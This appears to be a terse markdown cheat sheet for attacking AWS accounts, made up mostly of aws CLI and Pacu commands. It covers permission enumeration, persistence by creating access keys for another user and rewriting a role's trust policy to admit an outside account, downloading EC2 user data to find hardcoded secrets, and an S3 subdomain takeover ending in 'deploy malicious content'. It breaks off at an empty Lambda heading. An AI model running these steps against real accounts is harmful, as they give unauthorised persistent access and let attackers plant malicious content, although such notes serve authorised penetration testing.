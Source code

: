 ## General
### Access key and Secret key:
```
aws configure
aws configure --profile Test
aws sts get-caller-identity --profile Test
```

### PACU
```
import_keys Test
ls
whoami
run iam__enum_permissions
run aws__enum_spend
```

## Maintain persistence
Identify user with 0 or 1 access key (need iam:CreateAccessKey)
```
aws iam list-users --profile Test
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
# Or run PACU command
run iam__backdoor_users_keys
```

User with iam update-assume-role-policy
Identify non-service-link role
```
aws iam a list-roles --profile Test
```
Change the trust-policy
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com",
        "AWS": "arn:aws:iam::593820606366:user/vitquay-nonroot"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
Update and assume role
```
aws iam update-assume-role-policy --role-name test-role --policy-document file://trust-policy.json --profile Test
aws sts assume-role --role-arn arn:aws:iam::748384263101:role/test-role --role-session-name PersistenceTest --profile vitquaynonroot
```

## EC2
10.0.1.1 is reserved for the gateway of the subnet, 10.0.1.2 is
reserved for AWS DNS, and 10.0.1.3 is reserved for any future use by
AWS.

Look for hardcoded user data
```
run ec2__enum
run ec2__download_userdata
```
## S3
### awscli commands
```
aws s3 ls s3://kirit-bucket
aws s3 cp abc.txt s3://kirit-bucket/new/abc.txt
aws s3 rm s3://kirit-bucket/new/abc.txt --acl public-read
```

### NoSuchBucket message
- Check CNAME record for the bucket name
- Create S3 bucket with the same name and region
- Deploy malicious content

## Lambda
